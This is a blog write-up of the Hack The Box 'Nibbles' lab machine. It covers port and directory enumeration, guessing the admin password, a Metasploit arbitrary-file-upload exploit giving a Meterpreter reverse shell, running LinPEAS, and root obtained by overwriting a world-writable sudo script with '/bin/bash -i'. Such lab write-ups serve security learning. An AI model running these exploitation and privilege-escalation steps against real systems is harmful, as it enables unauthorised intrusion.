 ```yaml
---
author: Jean Chaput
pubDatetime: 2024-10-29T9:39:00Z
title: HTB Nibbles Box
postSlug: htb-nibbles
featured: false
draft: false
tags:
  - htb
  - box
  - write-up
description:
  Write-up for Nibbles Box on HTB
---
```


We start our exploration by scanning the target:

```bash
nmap -sV -sC -p- "10.10.10.75" -oA nmap_scan
```

We got the following output:

```markdown
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-21 18:11 CEST
Nmap scan report for 10.10.10.75
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.67 seconds
```

Since there is an `HTTP` server running on port 80, let's navigate to `http://10.10.10.75/`, there is not a lot to see here so let's inspect the source code by hitting `Ctrl + U`.

At the bottom, we can see the following:
```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Seems to be an interesting page to navigate, let's see if it exists.

We can see in the bottom-right corner `Powered by Nibbleblog` and by searching the web, we can find the [Nibbleblog CMS](https://github.com/dignajar/nibbleblog).

From here, we can look to the different links on the page and nothing seems to be interesting. We can try to enumerate sub directories or look into the CMS to understand how folders and files are structured.

```bash
gobuster dir -w /usr/share/wfuzz/general/common.txt -u http://$TARGET/nibbleblog/
```

This gives the following output :

```markdown
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin   (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/content (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
Progress: 951 / 952 (99.89%)
===============================================================
Finished
===============================================================
```

By navigating to `/content/`, we find the `/private/` folder and inside we discover the following `user.xml` file :

```xml
<users>
	<user username="admin">
		<id type="integer">0</id>
		<session_fail_count type="integer">0</session_fail_count>
		<session_date type="integer">1514544131</session_date>
	</user>
	<blacklist type="string" ip="10.10.10.1">
		<date type="integer">1512964659</date>
		<fail_count type="integer">1</fail_count>
	</blacklist>
</users>
```

So now we know the admin user login with the username `admin`.

By looking to the CMS files and folders, we can see that there should be an `/admin.php` page which could be the login page for the administration panel.

This page is effectively here and we can see a login form that we can use with our `admin` username that we found earlier. Since we don't have the password we could try to use a dictionary attack with `Hydra`, but it seems that some blacklisting mechanisms are used there to prevent this kind of attack.

Since it is an **easy** box on Hack the Box, let's simply try the name of the box as the password : `nibbles` (not guessing here, just a habit from Hack the Box).

It worked ! While in, let's check what is the running version of Nibbleblog. We can do this by going to the `Settings` page and scrolling down on the page to reveal `Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar`.

With this information, let's search for any known exploit :

```bash
searchsploit "nibbleblog 4.0.3"
```

This displays the following output :

```markdown
-------------------------------------------------------- ---------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)   | php/remote/38489.rb
-------------------------------------------------------- ---------------------
```

Let's run Metasploit :

```bash
msfconsole -q
```

In the `msfconsole`, we can run the following commands :

```bash
search nibbleblog
use exploit/multi/http/nibbleblog_file_upload
show options
set PASSWORD "nibbles"
set RHOSTS "10.10.10.75"
set TARGETURI "/nibbleblog"
set USERNAME "admin"
check
run
```

>  I used a Meterpreter payload for this one configured with my IP (VPN) and a listening port for the reverse TCP connection.

When we receive the reverse shell, we can directly try to identify who we are running our commands as:

```bash
getuid
```

This outputs : `Server username: nibbler`

Let's list the content in that user's home directory :

```bash
ls /home/nibbler
```

Here is the command output:

```markdown
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 11:29:56 +0100  .bash_history
040775/rwxrwxr-x  4096  dir   2017-12-11 04:04:04 +0100  .nano
100400/r--------  1855  fil   2017-12-11 04:07:21 +0100  personal.zip
100400/r--------  33    fil   2024-09-21 13:32:33 +0200  user.txt
```

And here we have our user flag. Now let's look for privilege escalation. 

I'll first start by getting the [LinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS) script on my machine (in another terminal):

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

And in Meterpreter :

```bash
upload linpeas.sh /tmp/linpeas.sh
shell
bash /tmp/linpeas.sh
```

Among the results we have, we can see the following output :

```markdown
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

This seems to be very interesting. In nibbler's home directory, we don't have the `personal` folder but we have a Zip file `personal.zip`. Let's unpack it :

```bash
unzip personal.zip
```

We can now see the permissions that we have on this file :

```bash
ls -al ~/personal/stuff
```

This gives us the following output :

```markdown
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

This file has the `777` permissions, which means read, write and execute for everyone. We already know that we can execute it as root without a password. Let's simply modify it :

```bash
echo "/bin/bash -i" > ~/personal/stuff/monitor.sh
```

And finally we run it :

```bash
sudo ~/personal/stuff/monitor.sh
```

We are now root on the machine and we can grab the root flag in `/root/root.txt`.
